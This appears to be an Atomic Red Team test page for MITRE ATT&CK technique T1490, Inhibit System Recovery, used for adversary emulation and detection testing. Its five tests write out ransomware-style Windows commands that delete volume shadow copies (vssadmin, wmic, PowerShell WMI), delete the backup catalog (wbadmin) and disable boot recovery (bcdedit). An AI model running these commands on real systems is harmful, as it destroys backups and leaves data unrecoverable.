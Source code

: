 # T1490 - Inhibit System Recovery
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1490)
<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - Delete Windows Backup Catalog](#atomic-test-3---windows---delete-windows-backup-catalog)

- [Atomic Test #4 - Windows - Disable Windows Recovery Console Repair](#atomic-test-4---windows---disable-windows-recovery-console-repair)

- [Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell](#atomic-test-5---windows---delete-volume-shadow-copies-via-wmi-with-powershell)


<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe delete shadows /all /quiet
```






<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI
Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic.exe shadowcopy delete
```






<br/>
<br/>

## Atomic Test #3 - Windows - Delete Windows Backup Catalog
Deletes Windows Backup Catalog. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wbadmin.exe delete catalog -quiet
```






<br/>
<br/>

## Atomic Test #4 - Windows - Disable Windows Recovery Console Repair
Disables repair by the Windows Recovery Console on boot. 
This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures
bcdedit.exe /set {default} recoveryenabled no
```






<br/>
<br/>

## Atomic Test #5 - Windows - Delete Volume Shadow Copies via WMI with PowerShell
Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject. 
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject 

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe -Command "Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}"
```






<br/>
